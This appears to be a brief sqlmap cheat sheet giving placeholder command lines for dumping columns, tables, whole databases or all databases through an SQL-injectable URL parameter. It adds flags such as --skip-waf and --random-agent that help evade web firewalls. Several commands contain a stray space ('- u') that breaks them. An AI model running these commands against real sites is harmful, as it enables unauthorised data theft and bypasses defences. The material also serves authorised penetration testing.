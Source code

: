 						
<h2>SQLmap Usage</h2>

 **To Fetch Only Column's Data**
 `sqlmap - u "url?prm=" -p prm -D dbname -T table_name -C column_name --dump` 

 **To Fetch Only All Column & Its Data**
 `sqlmap - u "url?prm=" -p prm -D dbname -T table_name  --dump`

 **To Fetch Entire Database's Data** 		     
 `sqlmap - u "url?prm=" -p prm -D dbname  --dump`

 **To Fetch All Databases**
 `sqlmap - u "url?prm=" -p prm --dbs  --dump` 
 or use --dump-all instead of --dump to fetch all databases's all tables and columns  


<h5>Extra Parameter to Optimise SQLmap's Performance</h5>
* Parameters    **--method GET,   --code 200, --skip-waf, --random-agent, --threads 10 -o **
* Optimised Url **sqlmap -u "url?prm=" -p prm -D dbname -T table_name -C column_name --dump --method GET --code 200 --skip-waf --random-agent --threads 10 -o**

